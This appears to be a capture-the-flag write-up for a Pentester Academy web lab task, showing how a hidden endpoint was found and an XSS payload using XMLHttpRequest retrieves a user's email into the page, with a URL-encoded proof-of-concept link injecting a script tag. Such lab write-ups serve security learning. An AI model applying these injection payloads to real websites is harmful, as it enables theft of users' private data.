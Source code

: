 ## Task 14 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/14)</small>

Objectives:

1. Find John's Email Address using an XSS vulnerability on this page
2. Display the Email address in the div with id "result"

Yes, there is no input to test. But the XSS is always a client side vulnerability, so after struggling I found a some resource in the source code

![](https://i.imgur.com/iZ5KLkB.png)

So when I opened this path in new tab, I found this

![](https://i.ibb.co/qBthbrB/image.png)

Now we found what we are worried about, let's use XHR to complete this challenge. We need to check for the completion of XHR so that we can get the response text. Luckily we have [`.onreadystatechange`](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/onreadystatechange)

```js
const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    document.querySelector("#result").textContent = xhttp.responseText;
  }
};

xhttp.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/14/email?name=john", true);
xhttp.send();
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/14?url=%3Cscript%3Econst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20document.querySelector%28%22%23result%22%29.textContent%20%3D%20xhttp.responseText%3B%0A%20%20%7D%0A%7D%3B%0A%0Axhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F14%2Femail%3Fname%3Djohn%22%2C%20true%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E)

